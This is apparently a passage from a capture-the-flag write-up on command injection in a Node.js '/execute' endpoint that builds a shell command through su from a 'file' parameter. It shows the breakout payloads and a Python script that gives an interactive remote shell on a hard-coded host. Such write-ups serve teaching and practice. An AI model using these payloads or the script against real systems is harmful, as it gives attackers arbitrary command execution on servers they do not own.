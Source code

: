 ### Vulnerability Analysis
The code constructs a shell command using template literals, allowing command injection through the `file` parameter. The command runs as `rruser` through `su`, providing access to that user's context.

## Exploitation Strategy

### Command Injection Vector
The vulnerable endpoint allows breaking out of the Node.js command:
```http
/execute?file=test" --help "
```

This transforms into:
```bash
su - rruser -c "node /home/rruser/uploads/test" --help ""
```

![](Pasted%20image%2020250211155108.png)
### Enhanced Payload
Adding command redirection improves output readability:
```http
test" --help >/dev/null; <command>"
```

![](Pasted%20image%2020250211155137.png)
### Exploitation 
Python script for streamlined exploitation:

```python
import requests
import urllib.parse

class CTFConsole:
    def __init__(self, base_url="http://20.193.159.130:7000"):
        self.base_url = base_url

    def execute_command(self, command):
        """Execute a command through the node injection"""
        # Construct the payload
        payload = f'test" --help >/dev/null; {command}"'
        
        # Send the request
        response = requests.get(f"{self.base_url}/execute", params={'file': payload})
        return response.text

    def run_console(self):
        """Run an interactive console"""
        while True:
            try:
                command = input("\n$ ")
                if command.lower() == 'exit':
                    break
                    
                result = self.execute_command(command)
                print(result)
                
            except KeyboardInterrupt:
                print("\n[*] Ctrl+C detected, exiting...")
                break
            except Exception as e:
                print(f"Error: {e}")
```